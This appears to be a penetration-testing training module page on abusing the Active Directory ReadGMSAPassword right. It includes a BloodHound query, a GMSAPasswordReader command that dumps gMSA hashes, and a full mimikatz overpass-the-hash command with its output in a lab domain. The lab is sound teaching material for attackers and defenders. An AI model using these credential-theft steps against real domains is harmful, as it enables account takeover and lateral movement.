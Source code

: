 
---
---
## ReadGMSAPassword

`Group Managed Service Accounts` (`gMSAs`) is a feature in Microsoft Active Directory that provides a secure and automated mechanism for managing service accounts used by applications and services running on Windows servers. Unlike regular service accounts, `gMSAs` have built-in password management and simplified key distribution, eliminating the need to manage and update passwords manually.

When a `gMSA` is created, it is associated with a specific Active Directory group, allowing multiple servers or applications to share the same `gMSA` for authentication. This association simplifies the administration and maintenance of service accounts across multiple systems.

A `gMSA` leverages a `secure key distribution process`, where the password is `automatically generated`, `securely stored`, and `periodically rotated` by the Active Directory domain controller. This eliminates the risk of the password being compromised or forgotten, reducing the attack surface and enhancing security.

By utilizing `gMSAs`, the associated principals (such as machine accounts, servers, or applications) are granted specific access rights through the use of a dedicated `DACLs` stored in the `msDS-GroupMSAMembership` attribute of the service account. These access rights can be tailored to meet the specific requirements of each principal, granting them access to the necessary resources and reducing the need for manual permission management.

If we get access to a principal (such as machine accounts, servers, or applications) that have access rights to use a `gMSA`, we can abuse it to obtain the group-managed service account password.

[dacledit.py](https://raw.githubusercontent.com/ShutdownRepo/impacket/dacledit/examples/dacledit.py) does not allow enumeration of this privilege. Therefore, let us use `BloodHound` to identify/enumerate it using a cypher query:

```cypher
MATCH p=((n)-[r:ReadGMSAPassword]->(m)) RETURN p
```

![read_gmsa_bloodhound.jpg](https://academy.hackthebox.com/storage/modules/219/read_gmsa_bloodhound.jpg)

`BloodHound` establishes a path revealing that `Pedro` actively possesse the access right `ReadGMSAPassword` over three `gMSAs` accounts. This path signifies `Pedro`'s direct authority and control over these accounts, meaning we can use his account to retrieve those passwords.

## Abusing ReadGMSAPassword from Windows

A viable method for actively obtaining the password of the `GMSA` from Windows and converting it into its corresponding hashes involves using the [GMSAPasswordReader](https://github.com/rvazarkar/GMSAPasswordReader) tool. This tool operates by reading the password blob from a `gMSA` account using LDAP and subsequently parsing the values into reusable hashes. After launching a `cmd.exe` as `Pedro` we can use this tool as follow:

> Executing GMSAPasswordReader

```c
C:\Tools> whoami

inlanefreight\pedro
C:\Tools> GMSAPasswordReader.exe --accountname apache-dev
```

It is important to note that this action may yield multiple hashes, including one for the `old password` and another for the `current password`. It is worth considering that either of these values could be valid for subsequent operations.

Once the hashes has been obtained, it can be used similarly to a regular user account. Techniques such as `pass-the-hash` (`PtH`) or `overpass-the-hash` (`OtH`) can be performed, leveraging the hash as an input for various offensive operations.

Let's use mimikatz, located in `C:\Tools`, to perform an OverPass the Hash attack. The following command will open a PowerShell window that will contain the ticket of the GMSA account `apache-dev$`:

> Using Mimikatz to perform OverPass-the-Hash

```c
 mimikatz.exe privilege::debug "sekurlsa::pth /user:apache-dev$ /domain:inlanefreight.local /ntlm:69978088B44350772FEBDB1E3DAC6F39 /run:powershell.exe" exit

  .#####.   mimikatz 2.2.0 (x64) #19041 Sep 19 2022 17:44:08
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > [https://blog.gentilkiwi.com/mimikatz](https://blog.gentilkiwi.com/mimikatz)
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > [https://pingcastle.com](https://pingcastle.com/) / [https://mysmartlogon.com](https://mysmartlogon.com/) ***/

mimikatz(commandline) # privilege::debug
Privilege '20' OK

mimikatz(commandline) # sekurlsa::pth /user:apache-dev$ /domain:inlanefreight.local /ntlm:69978088B44350772FEBDB1E3DAC6F39 /run:powershell.exe
user    : apache-dev$
domain  : inlanefreight.local
program : powershell.exe
impers. : no
NTLM    : 69978088B44350772FEBDB1E3DAC6F39
  |  PID  5276
  |  TID  7888
  |  LSA Process is now R/W
  |  LUID 0 ; 30799197 (00000000:01d5f55d)
  \_ msv1_0   - data copy @ 0000029A02E0AC80 : OK !
  \_ kerberos - data copy @ 0000029A03349848
   \_ aes256_hmac       -> null
   \_ aes128_hmac       -> null
   \_ rc4_hmac_nt       OK
   \_ rc4_hmac_old      OK
   \_ rc4_md4           OK
   \_ rc4_hmac_nt_exp   OK
   \_ rc4_hmac_old_exp  OK
   \_ *Password replace @ 0000029A0329C168 (32) -> null

mimikatz(commandline) # exit
Bye!
```

---
---
